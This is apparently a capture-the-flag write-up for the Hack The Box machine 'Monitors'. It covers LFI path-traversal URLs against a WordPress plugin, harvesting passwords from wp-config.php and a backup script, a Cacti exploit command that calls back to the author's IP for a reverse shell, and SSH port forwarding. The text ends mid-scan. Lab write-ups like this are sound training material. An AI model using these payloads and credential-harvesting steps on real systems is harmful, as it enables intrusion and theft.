# System Information



# System Enumeration

Nmap found the following open ports.




## Port 80

With only ssh and http being open, I went right to port 80. Viewing http://10.10.10.238 in Firefox showed direct IP access was not allowed, so I added monitors.htb to /etc/hosts.



Initial enumeration of the webserver revealed it was a wordpress site. 

```sh
kali@kali-[~/boxes/htb/monitors]$feroxbuster -u http://monitors.htb -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt -x .php .txt .html --no-recursion

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.3.3
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://monitors.htb
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt
 👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405, 500]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.3.3
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 💲  Extensions            │ [.php, .txt, .html]
 🚫  Do Not Recurse        │ true
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Cancel Menu™
──────────────────────────────────────────────────
301        9l       28w      318c http://monitors.htb/wp-includes
301        9l       28w      315c http://monitors.htb/wp-admin
301        9l       28w      317c http://monitors.htb/wp-content
403        9l       28w      277c http://monitors.htb/server-status
[####################] - 2m    249124/249124  0s      found:4       errors:0      
[####################] - 2m    249124/249124  2018/s  http://monitors.htb
```


#### Wordpress

I used wpscan to further enumerate the wordpress application. I greatly shortened this output, there was no useful information here, wpscan did not identify any vulnerable plugins.

```sh
kali@kali-[~/boxes/htb/monitors]$wpscan --url http://monitors.htb/ -e ap,at,dbe
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.18
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://monitors.htb/ [10.10.10.238]
[+] Started: Fri Dec 31 20:20:04 2021

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.29 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://monitors.htb/xmlrpc.php
 | Found By: Link Tag (Passive Detection)
 | Confidence: 100%
 | Confirmed By: Direct Access (Aggressive Detection), 100% confidence
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://monitors.htb/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: http://monitors.htb/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://monitors.htb/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.5.1 identified (Insecure, released on 2020-09-01).
 | Found By: Rss Generator (Passive Detection)
 |  - http://monitors.htb/index.php/feed/, <generator>https://wordpress.org/?v=5.5.1</generator>
 |  - http://monitors.htb/index.php/comments/feed/, <generator>https://wordpress.org/?v=5.5.1</generator>

........
```


Looking back at the main page, there is a search function on the right hand side. 



I sent the request to Burpsuite and setup intruder. My initial goal here was to search for a possible LFI due to the "/?s=test" in the URL after searching. While looking at the response to the attack requests, I noticed a redirect to a wordpress plugin called "wp-with-spritz".



A quick Google search of this showed version 1.0 is vulnerable to remote file inclusion.



The [exploit db entry](https://www.exploit-db.com/exploits/44544) can be found here, but the exploit seems very straightforward.





Checking for the version disclosure, I confirmed this is wp-with-spritz version 1.0.




I was successfully able to view /etc/passwd.




After cleaning it up a bit, I could see there was one user on the system, marcus

```sh
marcus:x:1000:1000:Marcus Haynes:/home/marcus:/bin/bash 
```

This was supposed to be vulnerable to RFI, so I copied the default php reverse shell on kali and edited it with my HTB IP and port 443.




I was not successful in getting RFI to work here. I went back to the LFI and tried to enumerate further with some linux wordlists. Using Burpsuite I was able to view /etc/apache2/sites-available/000-default.conf, which defines virtual host settings. 




This file showed two .conf files at the top. Looking within the sites-available directory, I can view both of these files.

```sh
http://monitors.htb/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=/../../../../etc/apache2/sites-available/monitors.htb.conf
```




```sh
http://monitors.htb/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=/../../../../etc/apache2/sites-available/cacti-admin.monitors.htb.conf
```




First I looked into monitors.htb.conf, as this showed the web root as /var/www/wordpress/. I had tried to enumerate /var/www/html/wordpress earlier with no luck. Now that I know the web root I can look at wp-config.php





I tried BestAdministrator@2020! for wordpress and ssh for marcus but I had no luck. Moving onto cacti-admin.monitors.htb.conf I added the cacti-admin.monitors.htb to my /etc/hosts. Another thing to note with this file, is I can see the exact path of the log files. I attempted to view the log files for monitors.htb, but was unable to. I did find the ${APACHE_LOG_DIR} in the envvars file, but this still did not work. 

#### cacti-admin

I didn't know what cacti was, so I looked it up. According to [Wikipedia](https://en.wikipedia.org/wiki/Cacti_(software)) it is a web based network monitoring and graphing tool. Viewing http://cacti-admin.monitors.htb showed the following login. I can also see a version of 1.2.12




The password found for SQL in wp-config.php worked for the admin account here. 





Since I knew the version I checked searchsploit to see if there was any entries, and there was one for this specific version labeled SQL injection/ RCE

```sh
searchsploit cacti

....
Cacti 1.2.8 - Authenticated Remote Code Execution | multiple/webapps/48144.py
....

```


I copied 48144.py and ran the script with the following options.

```sh
python3 cacti.py  -t http://cacti-admin.monitors.htb -u admin -p BestAdministrator@2020! --lhost 10.10.14.10 --lport 443
```

This gave me a reverse shell.




# www-data Shell

I used python to spawn a TTY shell.

```sh
$ python -c 'import pty;pty.spawn("/bin/bash")'
www-data@monitors:/usr/share/cacti/cacti$ 
```

Took a quick look in marcus's home directory. I see a note.txt and user.txt but I can't read either.

```sh
www-data@monitors:/home/marcus$ ls -al
ls -al
total 40
drwxr-xr-x 5 marcus marcus 4096 Jan 25  2021 .
drwxr-xr-x 3 root   root   4096 Nov 10  2020 ..
d--x--x--x 2 marcus marcus 4096 Nov 10  2020 .backup
lrwxrwxrwx 1 root   root      9 Nov 10  2020 .bash_history -> /dev/null
-rw-r--r-- 1 marcus marcus  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 marcus marcus 3771 Apr  4  2018 .bashrc
drwx------ 2 marcus marcus 4096 Jan 25  2021 .cache
drwx------ 3 marcus marcus 4096 Nov 10  2020 .gnupg
-rw-r--r-- 1 marcus marcus  807 Apr  4  2018 .profile
-r--r----- 1 root   marcus   84 Jan 25  2021 note.txt
-r--r----- 1 root   marcus   33 Jan  1 00:36 user.txt

```

Doing some further enumeration I see that port 3306 is listening locally. I was able to login as wpadmin using the password found in wp-config.php.





show databases; revealed information_schema and wordpress. 



I selected the wordpress database and enumerated the tables. 



Using select * from wp_users, I got the admin hash for wordpress.



I set hashcat to try to crack this and moved on. Looking under /etc/systemd/system there is a cacti-backup.service there. I used cat to look at this further.

```sh
www-data@monitors:/etc/systemd/system$ cat /lib/systemd/system/cacti-backup.service
<ystem$ cat /lib/systemd/system/cacti-backup.service
[Unit]
Description=Cacti Backup Service
After=network.target

[Service]
Type=oneshot
User=www-data
ExecStart=/home/marcus/.backup/backup.sh

[Install]
WantedBy=multi-user.target

```

It looks like a script located in marcus's home directory is executed on start. Backup.sh contained the following.

```sh
www-data@monitors:/etc/systemd/system$ cat /home/marcus/.backup/backup.sh
cat /home/marcus/.backup/backup.sh
#!/bin/bash

backup_name="cacti_backup"
config_pass="VerticalEdge2020"

zip /tmp/${backup_name}.zip /usr/share/cacti/cacti/*
sshpass -p "${config_pass}" scp /tmp/${backup_name} 192.168.1.14:/opt/backup_collection/${backup_name}.zip
rm /tmp/${backup_name}.zip
```


# SSH as Marcus
The password found backup.sh in marcus's home directory was the correct ssh password for Marcus. 

```sh
kali@kali-[~/boxes/htb/monitors]$ssh marcus@10.10.10.238
marcus@10.10.10.238's password: 
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-151-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat Jan  1 17:44:51 UTC 2022

  System load:  0.01               Users logged in:                0
  Usage of /:   35.6% of 17.59GB   IP address for ens160:          10.10.10.238
  Memory usage: 57%                IP address for docker0:         172.17.0.1
  Swap usage:   0%                 IP address for br-968a1c1855aa: 172.18.0.1
  Processes:    214

 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

128 packages can be updated.
97 of these updates are security updates.
To see these additional updates run: apt list --upgradable


Last login: Mon Sep 27 10:03:41 2021 from 10.10.14.19
marcus@monitors:~$ 

```


As marcus user I was able to read the note.txt and user.txt I saw earlier.

user.txt
```sh
marcus@monitors:~$ cat user.txt
4b92c5c07a5adf................
```

note.txt
```sh
marcus@monitors:~$ cat note.txt
TODO:

Disable phpinfo	in php.ini		- DONE
Update docker image for production use	- 
```


It seems that there is a docker image running on port 8443.

```sh
marcus@monitors:/$ ps -aux | grep docker
root       1566  0.0  2.0 1352616 82520 ?       Ssl  00:36   0:14 /usr/bin/dockerd -H fd:// --containerd=/run/containerd/containerd.sock
root       2069  0.0  0.0 553112  3944 ?        Sl   00:36   0:00 /usr/bin/docker-proxy -proto tcp -host-ip 127.0.0.1 -host-port 8443 -container-ip 172.17.0.2 -container-port 8443
```

I used ssh to port forward 8443 from monitors to port 8001 on my kali.

```sh
kali@kali-[~]$ssh -L 8001:172.17.0.2:8443 marcus@10.10.10.238
```

Initially viewing the page in a browser shows Apache Tomcat is running, and also returned a 404 not found.



I ran feroxbuster to see if it could find any directories. It returned quite a few, some just returned another 404, but marketing for example, brought me to a login page for Apache OFBiz.

```sh
kali@kali-[~]$feroxbuster -u https://127.0.0.1:8001/ -k --no-recursion

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.3.3
───────────────────────────┬──────────────────────
 🎯  Target Url            │ https://127.0.0.1:8001/
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405, 500]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.3.3
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔓  Insecure              │ true
 🚫  Do Not Recurse        │ true
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Cancel Menu™
